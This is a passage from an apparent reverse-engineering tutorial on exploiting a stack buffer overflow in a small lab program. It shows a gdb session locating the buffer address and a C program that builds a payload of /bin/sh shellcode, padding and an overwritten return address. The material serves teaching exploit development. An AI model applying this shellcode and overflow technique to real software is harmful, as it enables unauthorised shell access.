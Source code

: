     * So, this is the plan.

Let us come out of gdb and craft the right input. 

4. Crafting the right payload!

    * The Payload looks like this: 

            <Shellcode - 25 bytes><'a' - 183 bytes><'b' - 4 bytes><buffer Address - 4 bytes>

    * When **bof** is run using gdb, I got the following buffer Address. 

            rev_eng_series/post_12$ gdb -q bof
            Reading symbols from bof...(no debugging symbols found)...done.
            gdb-peda$ run
            Starting program: /home/adwi/ALL/rev_eng_series/post_12/bof 
            Before calling func
            Address of buffer = 0xffffcbb8

            After calling func
            [Inferior 1 (process 22773) exited normally]
            Warning: not running or target is remote
            gdb-peda$ 

    * Note that the buffer Address has changed. The Randomization feature is off, but the address has changed. This is something to think about. 

    * Keeping **buffer Address = 0xffffcbb8**, I will craft the payload. Consider the following C program:  

            rev_eng_series/post_12$ cat build_payload.c 
            #include<stdio.h>

            int main() {

                unsigned char payload[] = 

                // Shellcode - 25 bytes
                "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"

                // a_junk - 183 bytes
                "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"

                // b_junk - 4 bytes
                "bbbb"

                // buffer Address - 4 bytes
                "\xb8\xcb\xff\xff";


                // Payload is stored in a file named "payload.txt"
                FILE *fp = fopen("payload.txt", "wb");
                fwrite(payload, sizeof(payload), 1, fp);
                fclose(fp);
                
                return 0;
            }
